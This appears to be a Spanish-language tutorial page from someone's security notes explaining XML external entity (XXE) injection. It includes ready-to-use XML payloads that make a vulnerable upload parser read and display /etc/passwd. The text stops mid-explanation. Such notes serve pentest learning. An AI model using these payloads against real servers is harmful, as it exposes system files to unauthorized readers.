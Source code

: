 ```yaml
---
icon: file-xml
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XXE Injection

URL = [Info XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

Supongamos que tenemos una web en la que podemos subir cosas en formato `xml` y que la estructura la procesa bien mostrandonos asi el input que nosotros hemos metido, si se fia de cualquier input que le podamos meter, podremos hacer la inyeccion `XXE`...

Supongamos que la estructura del `xml` es la siguiente...

```xml
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>test test test</markdown>
</post>
```

Y ese input se refleja en la pagina cuando lo vamos a subir, por lo que podremos hacer lo siguiente...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&xxe;</markdown>
</post>
```

Si es vulnerable a este tipo de inyeccion deberiamos de poder ver el archivo `passwd` en el espacio donde estamos poniendo `&xxe;` y este nombre puede ser cualquiera que le queramos asignar en la parte de arriba en la zona `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` donde pone `xxe` podemos nombrarlo como queramos por ejemplo...

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY example SYSTEM "file:///etc/passwd" >]>
<post>
	<title>test</title>
	<description>message test</description>
	<markdown>&example;</markdown>
</post>
```

Si le cambiamos el nombre quedaria de esta manera...
